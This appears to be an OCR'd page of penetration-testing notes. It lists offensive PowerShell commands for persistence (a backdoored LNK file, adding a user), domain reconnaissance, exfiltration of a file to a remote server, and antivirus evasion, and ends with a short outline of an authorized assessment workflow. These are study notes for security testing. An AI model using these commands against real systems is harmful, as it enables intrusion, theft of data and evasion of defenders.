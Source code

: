 ##### Persistence
- **Invoke-BackdoorLNK**: Creates a backdoored LNK file for persistence.
  ```powershell
  Invoke-BackdoorLNK -FilePath "C:\path\to\file.lnk" -Payload "<payload>"
  ```
- **New-UserPersistenceOption:** Adds a new user and configures persistence mechanisms.
  ```powershell
  New-UserPersistenceOption -UserName "<username>" -Password "<password>"
  ```

##### Recon (Reconnaissance)
- **Get-NetUser**: Retrieves user accounts from the domain.
  ```powershell
  Get-NetUser -UserName "<username>"
  ```
- **Get-NetGroup**: Retrieves group memberships from the domain.
  ```powershell
  Get-NetGroup -GroupName "<groupname>"
  ```
- **Get-NetComputer**: Lists all computers in the domain.
  ```powershell
  Get-NetComputer
  ```

##### Exfiltration
- **Invoke-FileUpload**: Uploads a file to a remote server.
  ```bash
    Invoke-FileUpload -FilePath "C:\path\to\file.txt" -Url "http://example.com/upload"
  ```
- **Invoke-FileDownload**: Downloads a file from a remote server.
  ```bash
  Invoke-FileDownload -Url "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
  ```

##### Antivirus Evasion
- **Invoke-Obfuscation**: Obfuscates PowerShell scripts to evade detection.
  ```bash
  Invoke-Obfuscation
  ```
- **Out-EncryptedScript**: Encrypts a PowerShell script to evade antivirus.
  ```bash
  Out-EncryptedScript -ScriptPath "C:\path\to\script.ps1" -OutPath "C:\path\to\encrypted.ps1"
  ```

### PowerUpSQL

### BurpSuite

## OWASP Security Testing Guide

# Shell trail

## Assesment workflow steps before hacking
- customer and authorization - needs something to be tested
- scoping : what and how are we gonna test it
  - risks : they see e.g. medical app, risks that some personal info leaks
  - goals : find as many vulnabilities as possible
  - price : have to discuss this
- hacking for a week or two
- reporting + debreefing meeting
  - maybe security training
